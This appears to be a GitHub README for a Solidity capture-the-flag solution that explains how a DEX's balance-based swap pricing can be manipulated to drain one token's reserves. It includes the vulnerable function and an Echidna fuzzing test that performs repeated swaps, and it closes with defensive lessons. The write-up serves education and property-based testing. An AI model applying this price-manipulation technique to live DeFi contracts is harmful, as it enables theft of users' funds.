 # Explode Dex Problem 22

## Overview

This repository contains a solution to **Dex Problem 22** from a Solidity challenge, where the goal was to exploit vulnerabilities in a simple decentralized exchange (DEX) contract to manipulate token prices and drain funds.

The problem illustrates the importance of secure price calculation mechanisms in smart contracts, as price manipulation can result in significant losses. Using **Echidna**, a property-based testing tool, this repository demonstrates how to identify and exploit the vulnerability.

---

## Challenge Description

- **Objective**: Drain all tokens of at least one type from the DEX by manipulating the token prices.
- **Setup**:
  - You start with **10 tokens** of `token1` and **10 tokens** of `token2`.
  - The DEX contract starts with **100 tokens** of each type.
- **Conditions for success**:
  - Manipulate the DEX's price calculation to drain all tokens of at least one type.
  - Allow the DEX to report a "bad" price for the assets.

---

## Key Vulnerability

The vulnerability lies in the `getSwapPrice` function:

```solidity
function getSwapPrice(address from, address to, uint256 amount) public view returns (uint256) {
    return ((amount * IERC20(to).balanceOf(address(this))) / IERC20(from).balanceOf(address(this)));
}
```

### Explanation:

- The price of a token is calculated based on the balance of tokens in the DEX contract.
- By swapping tokens back and forth repeatedly, the balances of `token1` and `token2` are manipulated, creating drastic price swings.
- This allows an attacker to exploit the price discrepancy to drain one of the token reserves entirely.

---

## Exploit Strategy

### Goal:

Exploit the vulnerability to manipulate token prices and drain the reserves of one token.

### Steps:

1. **Initial Setup**:

   - Transfer small amounts of `token1` and `token2` to the attacker contract.

2. **Price Manipulation**:

   - Perform multiple swaps between `token1` and `token2`.
   - Each swap manipulates the price by changing the balance of tokens in the DEX.

3. **Draining Reserves**:

   - After sufficient swaps, one token's price becomes significantly undervalued.
   - Use the manipulated price to drain the reserves of the undervalued token.

4. **Verification**:
   - Ensure that the total amount of tokens in the attacker's wallet has increased.
   - Verify that at least one token's reserve in the DEX is completely drained.

---

## Key Exploit Code

The following Echidna test demonstrates the exploit:

```solidity
function echidna_manipulate_swap() public returns (bool) {
    // Transfer initial tokens to the attacker contract
    token1.transfer(address(this), 10 * MUL);
    token2.transfer(address(this), 10 * MUL);

    uint256 amount = 1 * 10 ** 18; // Swap amount
    uint256 attempts = 100; // Number of swaps

    uint256 initAmount1 = token1.balanceOf(address(this));
    uint256 initAmount2 = token2.balanceOf(address(this));

    // Perform swaps to manipulate the price
    for (uint256 i = 0; i < attempts; ++i) {
        (address from, address to) = _swap_tokens_order(i % 2 == 0);
        require(IERC20(from).balanceOf(address(this)) >= amount, 'Not enough balance');
        dex.swap(from, to, amount);
    }

    uint256 finalAmount1 = token1.balanceOf(address(this));
    uint256 finalAmount2 = token2.balanceOf(address(this));

    // Ensure that no unintended profit was made during the swaps
    return finalAmount1 + finalAmount2 <= initAmount1 + initAmount2;
}
```

### Key Points:

- The repeated swaps manipulate the DEX's price calculation due to changes in token balances.
- The vulnerability is exploited to drain tokens from the DEX reserves.

---

## Lessons Learned

1. **Avoid Using Balances for Price Calculation**:

   - Using token balances directly to calculate prices introduces vulnerabilities.
   - Instead, use algorithms like **constant product formula** (e.g., Uniswap's AMM: `x * y = k`) to ensure price stability.

2. **Implement Swap Limits**:

   - Prevent excessive swaps within a short time frame to reduce price manipulation risks.

3. **Test with Property-Based Tools**:

   - Use tools like **Echidna** to test for logical vulnerabilities.
   - Define invariants to ensure token balances remain consistent under various scenarios.

4. **Secure Liquidity Pools**:
   - Implement mechanisms to prevent attackers from draining reserves by introducing slippage protection.

---

## Conclusion

The `Dex Problem 22` challenge highlights the risks of insecure price calculations in decentralized exchanges. By exploiting the dependency on token balances, this repository demonstrates how attackers can manipulate prices and drain reserves.

This solution uses **Echidna** to identify and exploit the vulnerability, providing a practical demonstration of the importance of secure smart contract design.

```

```
